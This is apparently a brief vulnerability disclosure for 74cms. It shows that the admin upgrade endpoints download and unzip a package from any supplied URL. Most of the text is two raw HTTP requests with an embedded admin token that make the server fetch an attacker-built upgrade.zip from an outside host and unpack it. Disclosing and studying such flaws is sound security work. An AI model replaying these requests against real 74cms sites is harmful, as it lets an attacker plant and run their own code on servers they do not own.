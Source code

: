 # env

```text
https://www.74cms.com/download/detail/175.html
```
detail
In the background interface apiadmin, no official address is specified, and you can enter any address to download, subsequent support to decompress, then we construct a malicious upload package on the server. The structure is as follows

![](.imgs/359e8aee.png)

Although the decompression failure will be reported during the decompression, it can be ignored

![](.imgs/500aaecd.png)

The packet is as follows

```text
GET /apiadmin/Upgrade/download?timestamp=1&path=http://10.211.55.2:8081/upgrade.zip HTTP/1.1
Host: 10.211.55.11:8092
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
admintoken: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjQ0ODMyMzQsImV4cCI6MTczMjI1OTIzNCwiaW5mbyI6eyJpZCI6MSwicm9sZV9pZCI6MX19.2jxjmAyNXp75aVUVFKUxaYK9pgBLp9rqAaM3hQ7B2pQ
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive

```


```text
GET /apiadmin/Upgrade/unzip?timestamp=1&path=http://10.211.55.2:8081/upgrade.zip HTTP/1.1
Host: 10.211.55.11:8092
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
admintoken: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjQ0ODMyMzQsImV4cCI6MTczMjI1OTIzNCwiaW5mbyI6eyJpZCI6MSwicm9sZV9pZCI6MX19.2jxjmAyNXp75aVUVFKUxaYK9pgBLp9rqAaM3hQ7B2pQ
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
```